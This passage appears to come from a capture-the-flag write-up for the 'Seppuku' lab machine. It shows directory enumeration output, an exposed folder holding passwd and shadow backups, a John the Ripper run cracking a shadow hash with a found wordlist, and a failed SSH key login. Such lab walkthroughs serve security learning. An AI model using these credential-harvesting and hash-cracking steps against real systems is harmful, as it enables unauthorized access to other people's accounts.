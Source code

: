 ~~~
/index.html (Status: 200)
/keys (Status: 301) <-------------------- interesting
/production (Status: 301)
/q (Status: 301)
/r (Status: 301)
/secret (Status: 301) <-------------------- interesting
/server-status (Status: 403)
/t (Status: 301)
/w (Status: 301)
===============================================================
2020/10/04 10:16:45 Finished
===============================================================
~~~

The `/secret` location contains several promising files:

~~~
kali@kali:/data/seppuku/files$ curl -s http://seppuku.box:7601/secret/ | html2text 
****** Index of /secret ******
[[ICO]]       Name             Last_modified    Size Description
===========================================================================
[[PARENTDIR]] Parent_Directory                    -  
[[   ]]       hostname         2020-05-13 03:41    8  
[[IMG]]       jack.jpg         2018-09-12 03:49  58K  
[[   ]]       passwd.bak       2020-05-13 03:47 2.7K  
[[   ]]       password.lst     2020-05-13 03:59  672  
[[   ]]       shadow.bak       2020-05-13 03:48 1.4K  
===========================================================================
     Apache/2.4.38 (Debian) Server at seppuku.box Port 7601
~~~

## Rabbit holes

However, trying to brute force the `shadow` file with the `password.lst` dictionary doesn't lead anywhere:

~~~
kali@kali:/data/seppuku/files$ /data/src/john/run/john shadow.bak --wordlist=password.lst 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
a1b2c3           (r@bbit-hole)
1g 0:00:00:00 DONE (2020-10-04 09:24) 20.00g/s 1860p/s 1860c/s 1860C/s 123456
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

Trying to connect to the SSH service using the private key doesn't work either:

~~~
kali@kali:/data/seppuku/files$ chmod 400 private
kali@kali:/data/seppuku/files$ ssh -i private seppuku@seppuku.box
load pubkey "private": invalid format
seppuku@seppuku.box's password: 

~~~
